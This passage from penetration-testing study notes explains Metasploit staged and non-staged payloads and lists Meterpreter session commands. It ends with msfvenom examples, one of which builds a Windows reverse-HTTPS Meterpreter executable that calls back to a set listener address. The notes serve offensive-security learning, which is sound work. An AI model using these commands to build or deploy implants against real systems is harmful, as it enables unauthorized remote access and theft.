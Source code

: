 The two payloads above only differ in the character following **shell** before **reverse\_tcp**. The **/shell/reverse\_tcp** is a staged payload. The **/shell\_reverse\_tcp** is a non-staged payload.

### Meterpreter Payload

The _Meterpreter_ payload is a multi-function payload that can be dynamically extended at run-time. It resides entirely in memory and communication is encrypted by default.

Useful Meterpreter commands of note:

```bash
Command       Description
-------       -----------
sysinfo       Gets information about the remote system, such as OS
getuid        Get the user that the server is running as
shell         Drop into a system command shell
channel       Displays information or control active channels
help          Gets help
upload        Upload a file or directory
download      Download a file or directory
```

Running any command inside a meterpreter session prefixed with an `l` (lowercase L) will run on the local system rather than the remote system.

```bash
meterpreter > lpwd
/home/kali

meterpreter > lcd /home/kali/Downloads

meterpreter > lpwd
/home/kali/Downloads
```

### Executable Payloads

Using msfvenom to list payloads with a filter:

```bash
kali@kali:~$ msfvenom -l payloads --platform windows --arch x64
```

{% hint style="info" %}
Netcat does not know how to handle staged payloads. If running a staged payload, use Metasploit's _multi/handler_ module.
{% endhint %}

Example usage of msfvenom:

{% code overflow="wrap" %}
```bash
kali@kali:~$ msfvenom -p php/reverse_tcp <OPTIONS=VALUES> -f <FORMAT> -o <OUTFILE>
kali@kali:~$ msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.119.4 LPORT=443 -f exe -o met.exe
```
{% endcode %}
